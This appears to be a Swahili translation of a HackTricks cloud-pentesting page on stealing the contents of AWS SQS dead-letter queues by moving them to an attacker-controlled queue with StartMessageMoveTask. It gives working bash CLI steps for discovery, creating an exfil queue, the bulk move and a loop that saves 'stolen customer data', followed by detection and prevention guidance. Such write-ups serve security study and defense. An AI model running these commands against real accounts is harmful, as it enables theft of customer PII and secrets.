 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../../banners/hacktricks-training.md}}

## Description

Dhulumu kazi za kuhamisha ujumbe za SQS ili kuiba ujumbe wote yaliyokusanywa kutoka kwa Dead-Letter Queue (DLQ) ya mwathirika kwa kuyaelekeza kwenye queue inayodhibitiwa na mshambuliaji kwa kutumia `sqs:StartMessageMoveTask`. Teknik hii inatumia kipengele halali cha AWS cha urejeshaji ujumbe ili exfiltrate data nyeti iliyokusanywa katika DLQs kwa muda.

## What is a Dead-Letter Queue (DLQ)?

Dead-Letter Queue ni queue maalum ya SQS ambapo ujumbe hupelekwa moja kwa moja wanaposhindwa kushughulikiwa kwa mafanikio na programu kuu. Ujumbe hizi zilizoshindwa mara nyingi zina:
- Data nyeti za programu ambazo hazikuweza kushughulikiwa
- Maelezo ya hitilafu na habari za debugging
- Personal Identifiable Information (PII)
- API tokens, credentials, au secrets nyingine
- Data muhimu za muamala wa biashara

DLQs hufanya kazi kama "kaburi" la ujumbe zilizoshindwa, hivyo kuwa malengo yenye thamani kwa sababu hukusanya data nyeti kwa muda ambao programu hazikuweza kushughulikia ipasavyo.

## Attack Scenario

**Real-world example:**
1. **E-commerce application** inashughulikia maagizo ya wateja kupitia SQS
2. **Maagizo fulani yanashindwa** (masuala ya malipo, matatizo ya hesabu, n.k.) na yanahamishwa kwenda DLQ
3. **DLQ inakusanya** wiki/miezi ya maagizo yaliyoshindwa yenye data za wateja: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Mshambuliaji anapata ufikiaji** wa kredenshiali za AWS zenye ruhusa za SQS
5. **Mshambuliaji anagundua** DLQ ina maelfu ya maagizo yaliyoshindwa yenye data nyeti
6. **Badala ya kujaribu kufikia ujumbe kwa mmoja mmoja** (polepole na kuonekana), mshambuliaji anatumia `StartMessageMoveTask` kuhamisha kwa wingi ALL ujumbe kwenda queue yake mwenyewe
7. **Mshambuliaji anatoa** data nyeti zote za kihistoria kwa operesheni moja

## Requirements
- Queue ya chanzo lazima iwe iliyosanidiwa kama DLQ (inajulikana na angalau queue moja kupitia RedrivePolicy).
- Ruhusa za IAM (endeshwa kama principal ya mwathirika aliyefichuliwa):
- Kwenye DLQ (chanzo): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Kwenye queue ya marudio: ruhusa za kupeleka ujumbe (mfano, queue policy inayoruhusu `sqs:SendMessage` kutoka kwa principal ya mwathirika). Kwa destinations za ndani ya akaunti hiyo mara nyingi hii inaruhusiwa kwa default.
- Ikiwa SSE-KMS imewezeshwa: kwenye source CMK `kms:Decrypt`, na kwenye destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
**Potential Impact**: Exfiltrate payloads nyeti zilizokusanywa katika DLQs (matukio yaliyoshindwa, PII, tokens, application payloads) kwa kasi kubwa kutumia native SQS APIs. Inafanya kazi cross-account ikiwa queue policy ya destination inaruhusu `SendMessage` kutoka kwa principal ya mwathirika.

## How to Abuse

- Tambua ARN ya DLQ ya mwathirika na uhakikishe kwamba kwa kweli inarejelewa kama DLQ na queue fulani (queue yoyote inatosha).
- Tengeneza au chagua queue inayodhibitiwa na mshambuliaji na upate ARN yake.
- Anzisha task ya kuhamisha ujumbe kutoka DLQ ya mwathirika kwenda queue yako ya destination.
- Fuatilia maendeleo au ghairi ikiwa inahitajika.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: Mshambuliaji ameiba kredenshiali za AWS na kugundua kwamba application ya e-commerce inatumia SQS na DLQ yenye jaribio za kushindwa za usindikaji wa maagizo ya wateja.

1) **Discover and examine the victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Unda attacker-controlled destination queue**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Tekeleza wizi wa ujumbe kwa wingi**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Kukusanya taarifa nyeti zilizoporwa**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Vidokezo vya cross-account
- Queue ya destination inapaswa kuwa na resource policy inayoruhusu victim principal kutumia `sqs:SendMessage` (na, ikiwa inatumiwa, KMS grants/permissions).

## Kwa Nini Shambulio Hili Lina Ufanisi

1. **Legitimate AWS Feature**: Inatumia utendakazi uliopo ndani ya AWS, hivyo kuifanya iwe ngumu kugundua kama ni hatari
2. **Bulk Operation**: Huhamisha maelfu ya ujumbe kwa haraka badala ya ufikiaji wa polepole wa ujumbe mmoja mmoja
3. **Historical Data**: DLQs hukusanya data nyeti kwa wiki/miezi
4. **Under the Radar**: Mashirika mengi hayafuatilii ufikiaji wa DLQ kwa ukaribu
5. **Cross-Account Capable**: Inaweza exfiltrate hadi akaunti ya AWS ya attacker ikiwa ruhusa zinawezesha

## Ugunduzi na Kuzuia

### Ugunduzi
Fuatilia CloudTrail kwa simu za API za `StartMessageMoveTask` zenye mashaka:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Uzuiaji
1. **Ruhusa Ndogo**: Punguza ruhusa za `sqs:StartMessageMoveTask` kwa roles zinazohitajika pekee
2. **Fuatilia DLQs**: Sanidi alarms za CloudWatch kwa shughuli zisizo za kawaida za DLQ
3. **Sera za Upatikanaji Kati ya Akaunti**: Kagua kwa makini SQS queue policies zinazoruhusu upatikanaji kati ya akaunti
4. **Simbua DLQs**: Tumia SSE-KMS na sera za funguo zenye mipaka
5. **Usafishaji wa Mara kwa Mara**: Usiruhusu data nyeti ikusanyike kwenye DLQs bila kikomo

{{#include ../../../../banners/hacktricks-training.md}}
